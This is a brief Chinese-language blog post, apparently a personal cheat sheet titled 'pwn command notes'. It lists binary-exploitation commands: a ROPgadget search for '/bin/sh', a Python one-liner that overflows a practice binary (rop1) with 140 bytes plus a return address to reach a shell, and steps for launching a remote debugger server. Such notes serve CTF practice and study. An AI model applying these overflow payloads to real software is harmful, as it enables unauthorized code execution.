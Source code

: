 ```yaml
---
layout:		post
title:		pwn命令记录篇
author:		wooy0ung
tags:		  pwn
category: note
---
```



>[索引目录]  
>0x001 ROPgadget  
>0x002 Python  
<!-- more -->


## 0x001 ROPgadget

```
ROPgadget --binary bin --string "/bin/sh"

```


## 0x002 Python

```
(python -c 'print "A"*140 + "\xa4\x84\x04\x08"';cat )| ./rop1
```

## 0x003 linux

```
x64 0x400000
```

```
$ chmod a+x ./linux_server64
$ ./linux_server64
```